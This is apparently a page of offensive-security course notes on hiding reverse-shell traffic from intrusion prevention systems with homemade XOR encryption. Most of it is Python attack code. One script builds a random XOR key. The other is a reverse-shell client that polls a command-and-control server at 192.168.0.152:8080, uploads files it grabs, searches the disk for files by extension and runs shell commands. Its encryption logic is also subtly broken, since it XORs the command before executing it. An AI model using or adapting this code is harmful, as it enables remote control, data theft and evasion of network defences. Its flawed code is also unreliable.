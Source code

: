 ```yaml
---
title: Bypassing IPS with handmade XOR Encryption
author: amandaguglieri
draft: false
TableOfContents: true
---
```


# Bypassing IPS with handmade XOR Encryption

The idea is to encrypt our traffic to avoid network analyzers or intrusion prevention sensors. SSL or SSH is not recommended here since Next Generation Firewalls have the ability to decrypt them and pass it as plain text to the IPS, where it will be recognized.

- Create a secret key of 1Kb that matches the size of the socket, to make a XOR operation to encrypt the message


```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


# The random and string libraries are used to generate a random string with flexible criteria
import string
import random


# Random Key Generator
key = ''.join(random.choice(string.ascii_lowercase + string.ascii_uppercase + string.digits + '^!\$%&/()=?{[]}+~#-_.:,;<>|\\') for _ in range(0, 1024))


print(key)

print ("\n" + "Key length = " + str(len(key)))

message = 'ipconfig'
print("Msg: " + message + '\n')


# here i defined a dedicated function called str_xor, we will pass two values to this fucntion, the first value is the message(s1) that we want to encrypt or decrypt, and the second paramter is the xor key(s2). We were able to bind the encryption and the decryption phases in one function because the xor operation is exactly the same when we encrypt or decrpyt, the only difference is that when we encrypt we pass the message in clear text and when we want to decrypt we pass the encrypted message


def str_xor(s1, s2):
    return "".join([chr(ord(c1) ^ ord(c2)) for (c1, c2) in zip(s1,s2)])


# first we split the message and the xor key to a list of character pair in tuples format >>  for (c1,c2) in zip(s1,s2)

# next we will go through each tuple, and converting them to integer using (ord) function, once they converted into integers we can now perform exclusive OR on them  >>  ord(c1) ^ ord(c2)

# then convert the result back to ASCII using (chr) function  >>  chr(ord(c1) ^ ord(c2))
# last step we will merge the resulting array of characters as a sequqnece string using >>>  "".join function 

enc = str_xor(message, key)

print("Encrypted message is " + "\n" + enc + "\n")

dec = str_xor(enc, key)
print("Decrypted message is " + "\n" + dec + "\n")

```



To integrate XOR encryption into [this client side Python script](coding-a-reverse-shell-that-searches-files.md), you can modify the script to encrypt and decrypt the communication between the client and the server using the XOR encryption algorithm.

Here is an example of how to modify the script to incorporate XOR encryption:

```python
import string
import random
import requests
import os
import subprocess
import time

# Random Key Generator
key = ''.join(random.choice(string.ascii_lowercase + string.ascii_uppercase + string.digits + '^!\$%&/()=?{[]}+~#-_.:,;<>|\\') for _ in range(0, 1024))

# Define XOR function
def str_xor(s1, s2):
    return "".join([chr(ord(c1) ^ ord(c2)) for (c1, c2) in zip(s1,s2)])

while True:
    # Send GET request to C&C server to get command
    req = requests.get('http://192.168.0.152:8080')
    command = req.text
    
    # If command is to terminate, break out of loop
    if 'terminate' in command:
        break
    
    # If command is to grab a file and send it to the C&C server
    elif 'grab' in command:
        grab, path = command.split("*")
        if os.path.exists(path):
            url = "http://192.168.0.152:8080/store"
            filer = {'file': open(path, 'rb')}
            r = requests.post(url, files=filer)
        else:
            post_response = requests.post(url='http://192.168.0.152:8080', data='[-] Not able to find the file!'.encode())
    
    # If command is to search for files with a specific extension
    elif 'search' in command:
        # Split command into path and file extension
        command = command[7:] #cut off the the first 7 character ,, output would be  C:\\*.pdf
        path, ext = command.split('*')
        lists = '' # here we define a string where we will append our result on it
        
        # Walk through directories and search for files with specified extension
        for dirpath, dirname, files in os.walk(path):
            for file in files:
                if file.endswith(ext):
                    lists = lists + '\n' + os.path.join(dirpath, file)
        requests.post(url='http://192.168.0.152:8080', data=lists)
    
    # If command is a shell command, execute it and send output to the C&C server
    else:
        # Encrypt command with XOR key
        enc = str_xor(command, key)
        
        # Execute encrypted command and capture stdout and stderr
        CMD = subprocess.Popen(enc, shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.0.152:8080', data=str_xor(CMD.stdout.read(), key))
        post_response = requests.post(url='http://192.168.0.152:8080', data=str_xor(CMD.stderr.read(), key))
    
    time.sleep(3)

```